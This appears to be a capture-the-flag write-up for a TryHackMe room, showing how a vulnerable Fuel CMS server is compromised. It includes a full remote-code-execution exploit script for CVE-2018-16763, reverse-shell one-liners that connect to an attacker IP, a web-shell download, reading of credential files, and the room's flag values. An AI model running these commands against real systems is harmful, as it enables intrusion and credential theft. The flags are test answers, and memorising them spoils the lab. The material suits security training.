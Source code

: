 ```yaml
---
description: https://tryhackme.com/room/ignite
---
```


# Ignite

## INIT

```
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```
nmap -sC -sV -O $ignite
```

![](<../.gitbook/assets/image (380).png>)

## GOBUSTER

```
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](<../.gitbook/assets/image (381).png>)

## HTTP

![](<../.gitbook/assets/image (382).png>)

![](<../.gitbook/assets/image (384).png>)

![](<../.gitbook/assets/image (385).png>)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](<../.gitbook/assets/image (386).png>)

![](<../.gitbook/assets/image (387).png>)

```
searchsploit Fuel
searchsploit -p 47138
```

![](<../.gitbook/assets/image (388).png>)

```
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](<../.gitbook/assets/image (389).png>)

```
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](<../.gitbook/assets/image (395).png>)

```
cmd:bash shell.sh
```

![](<../.gitbook/assets/image (396).png>)

```
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](<../.gitbook/assets/image (391).png>)

![](<../.gitbook/assets/image (392).png>)

![](<../.gitbook/assets/image (393).png>)

![](<../.gitbook/assets/image (394).png>)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](<../.gitbook/assets/image (383).png>)

```
 cat /var/www/html/fuel/application/config/database.php
```

![](<../.gitbook/assets/image (397).png>)

```
su -
password: mememe
cat /root/root.txt
```

![](<../.gitbook/assets/image (398).png>)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}
